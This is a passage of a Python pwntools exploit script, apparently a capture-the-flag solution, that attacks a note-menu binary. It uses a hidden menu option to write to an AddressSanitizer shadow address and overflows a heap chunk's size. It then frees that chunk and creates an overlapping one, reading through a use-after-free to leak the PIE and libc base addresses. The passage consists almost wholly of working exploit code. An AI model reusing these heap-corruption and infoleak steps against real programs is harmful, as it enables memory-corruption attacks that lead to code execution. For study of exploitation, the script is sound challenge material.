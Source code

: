 ```
        print target.recvuntil("Choice: ")
        target.sendline('2')
        print target.recvuntil("Index: ")
        target.sendline(str(index))
        content = target.recvline()
        content = content.replace("Content: ", "")
        content = content.replace("\x0a", "")
        ide = target.recvline()
        ide = ide.replace("Index: ", "")
        ide = ide.replace("\x0a", "")
        return content

def updateNote(index, content, ide):
        print target.recvuntil("Choice: ")
        target.sendline("3")
        print target.recvuntil("Index: ")
        target.sendline(str(index))
        print target.recvuntil("New Content: ")
        target.send(content)
        print target.recvuntil("New ID: ")
        target.sendline(str(ide))

def deleteNote(index):
  print target.recvuntil("Choice: ")
  target.sendline('4')
  print target.recvuntil("Index: ")
  target.sendline(str(index))


def secret(addr):
        print target.recvuntil("Choice: ")
        target.sendline("666")
        print target.recvuntil("Lucky Number: ")
        target.sendline(str(addr))


# Overflow heap header size
createNote(0x10, '0'*0x8, 0xffffffffffffffff)
secret((0x602000000020 >> 3) + 0x7fff8000)
updateNote(0, '\x02'*0x12, 0x1502ffff00020202)
updateNote(0, '\x02'*0x15, 0xffffffff02ffffff)

# Free chunk with overflown size
deleteNote(0)

# Create a new chunk which overlaps with UAF
createNote(0x10, p64(0x602000000018), 0xdeadbeef00)

# Use heap grooming to get PIE infoleak
pieLeak = showNote(0)
pieLeak = u64(pieLeak + "\x00"*(8 - len(pieLeak)))
pieBase = pieLeak - 0x114ab0
log.info("PIE base is: " + hex(pieBase))

# Use PIE infoleak to get libc infoleak via got read
gotPuts = pieBase + elf.got['puts']
log.info(gotPuts)

updateNote(1, "0000", gotPuts >> 8)

putsLeak = showNote(0)
libcBase = u64(putsLeak + "\x00"*(8 - len(putsLeak))) - 0x43120
log.info("libc base is: " + hex(libcBase))
```